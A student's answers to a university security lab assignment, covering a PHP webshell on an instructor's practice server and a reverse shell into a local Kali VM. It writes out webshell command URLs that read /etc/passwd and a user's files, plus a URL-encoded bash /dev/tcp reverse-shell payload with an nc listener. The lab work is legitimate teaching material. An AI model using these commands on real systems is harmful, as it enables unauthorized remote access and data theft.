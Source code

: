 ***Lucky Beulla Muhoza***

***CS 338***

***Prof. Jeff Ondich***

## FIRST REVERSE SHELL ##

### Part 1: Installing a PHP webshell ###

a. Explain how you can execute the Linux command whoami on the server using your webshell. What result do you get when you execute that command?

>  *To execute the whoami command on the server, I accessed the path to my uploaded web shell file in the URL and included ***?command=whoami****, so my URL looks like this: 
 http://danger.jeffondich.com/uploadedimages/muhozal-webshell1.php?command=whoami
>
>  *The uploaded PHP code then checks if a command parameter is provided in the URL and executes that specified command through the system function, thus allowing remote code execution.
The resulting output is the name of the user under which the web server is running, in this case www-data.*


b. What is this webshell's ```<pre>``` tag for? (And more to the point, what happens if you leave it out?)

> *The ```<pre>``` tag ensures that the output from the system function is displayed in a well-structured and readable way. Leaving out the tag would result into a messy output since HTML would ignore whitespace and line breaks thus making elements like lists of files or directories harder to read.*

*****
### Part 2: Looking around ###

a. What directory is danger's website located in?

> *Using the **pwd** command, the directory in which danger's website is located in is: **/var/www/danger.jeffondich.com***

b. What are the names of all the user accounts on danger.jeffondich.com? How do you know?

> *Using ```command=ls /home```, I was able to find the two main user directories on danger.jeffondich.com in the home directory. These user accounts are **bullwinkle** and **jeff***

c. Do you have access to the file /etc/passwd? What's in it?

> *I attempted to access ```/etc/passwd``` using ```cat /etc/passwd``` but encountered a site error, suggesting that direct access to the file is restricted.*

d. Do you have access to the file /etc/shadow? What's in it? (You'll have to look onliine for the answer to that second question, since the answer to the first is no.)

> *No, I do not have access to ```/etc/shadow```.*
>
> *This file stores encrypted user passwords and other information about user accounts. Each entry typically includes fields like the username, hashed password, last password change, and password expiration policies.*

e. There may be some secret files scattered around. See how many you can find and report on your discoveries.

> *I found a moose using ```command=cat /home/jeff/supersecret.txt```*

f. [Optional] Report on anything else interesting you discover.

> *I was frustrated but eventually found it helpful that the ```cd``` command does not work in web shell.*
> 
> *I learned that when I send a command via a PHP web shell, it’s executed in a new, isolated shell session every time. Any directory changes made with cd exist only in that temporary shell, which closes immediately after the command runs. This allows me to explore diffent directories without needing ```cd```.*

****
### Part 3: Setup for part 4 ###
****

### Part 4: Launching a reverse shell ###

a. What is the IP address of your Kali VM (the target machine)? How did you find out?

> *The IP address of my Kali VM in 192.168.64.2. I found it by running the `ip a` command in my Kali terminal and inspecting the eth0 interface section*

b. What are the IP addresses of your host OS (the attacking machine)? How did you find out? Which one should you use to communicate with Kali and why?

> *I was able to obtain the IP address of my macOS by running the `ifconfig | grep inet` command in my terminal. Here is the list of present IP addressed:*
>
>```
>	inet 127.0.0.1 netmask 0xff000000
>	inet6 ::1 prefixlen 128 
>	inet6 fe80::1%lo0 prefixlen 64 scopeid 0x1 
>	inet6 fe80::a494:37ff:fecf:e5d5%ap1 prefixlen 64 scopeid 0xb 
>	inet6 fe80::1c5b:29b2:d71e:3487%en0 prefixlen 64 secured scopeid 0xc 
>	inet 10.133.0.214 netmask 0xffffe000 broadcast 10.133.31.255
>	inet6 fe80::4c06:6dff:fe19:7ce2%awdl0 prefixlen 64 scopeid 0xd 
>	inet6 fe80::4c06:6dff:fe19:7ce2%llw0 prefixlen 64 scopeid 0xe 
>	inet6 fe80::a05f:d8e8:8da2:d878%utun0 prefixlen 64 scopeid 0xf 
>	inet6 fe80::d48b:7e2a:ed1d:51fa%utun1 prefixlen 64 scopeid 0x10 
>	inet6 fe80::9b38:4747:3b6c:256d%utun2 prefixlen 64 scopeid 0x11 
>	inet6 fe80::ce81:b1c:bd2c:69e%utun3 prefixlen 64 scopeid 0x12 
>	inet6 fe80::4942:7591:c656:402e%utun4 prefixlen 64 scopeid 0x13 
>	inet6 fe80::7001:54e0:1851:ca5d%utun5 prefixlen 64 scopeid 0x14 
>	inet6 fe80::4a03:9414:840e:86b2%utun6 prefixlen 64 scopeid 0x17 
>	inet6 fe80::6905:89f9:1401:c108%utun7 prefixlen 64 scopeid 0x18 
>	inet 192.168.64.1 netmask 0xffffff00 broadcast 192.168.64.255
>	inet6 fe80::8494:37ff:fefc:8b64%bridge100 prefixlen 64 scopeid 0x16 
>	inet6 fd6a:c3ab:6dda:5cc4:1c66:5278:ac7d:564 prefixlen 64 autoconf secured 
>```
> *The **IP 192.168.64.1** should be used to communicate with Kali, given that my Kali VM has the **IP address 192.168.64.2**. This makes both machines part of the same local network, allowing for direct communication.*

c. On your host OS (the attacker), pick any port number between 5000 and 10000 and run nc -l -p YOUR_CHOSEN_PORT

> *Ran the command nc -l 5050 in my mac terminal*

d. In a browser on your host machine, use your web shell to go to this crazy URL.

> *My URL is: http://192.168.64.2/webshell.php?command=bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/192.168.64.1/5050%200%3E%261%22*

e. Go back and look at your nc -l -p terminal on your host OS (attacking machine). Do you have a shell now? Is it letting you execute commands on Kali? How do you know it's Kali?

> *I have successfully established a reverse shell connection from my Kali VM back to my macOS. The output show `www-data@kali:/var/www/html$`*
>
> *Yes, I can execute commands on Kali from my macOS now. Here is a screenshot of the `ls` command that listed the files in the `/var/www/html` directory and `whoami` command that displayed the username of the current user on Kali:*
>
>  <img width="255" alt="Screenshot 2024-10-29 at 2 55 31 PM" src="https://github.com/user-attachments/assets/ea34c3b3-f027-4dc6-97d0-bf108de33cf9">
>
> *I know the shell is from my Kali because the prompt shows `www-data@kali`, where www-data is the username and kali is the hostname of the Kali VM. And, when I run pwd to see my current working directory, the output is `/var/www/html`, which is the default location for the Apache web server on Kali Linux.*

f. What are all those % codes in the URL you used?

> *The % codes in the URL are URL-encoded representations of special characters. This is necessary because URLs cannot include certain characters directly; instead, they must be represented in a format that can be safely transmitted over the internet. Using [this documentation](https://www.w3schools.com/tags/ref_urlencode.ASP) as reference, for example: %20 represents a space and %22 represents a double quote "" and %26 represents an ampersand &.*

g. Write a brief description, probably including a diagram, explaining how this reverse shell is functioning.
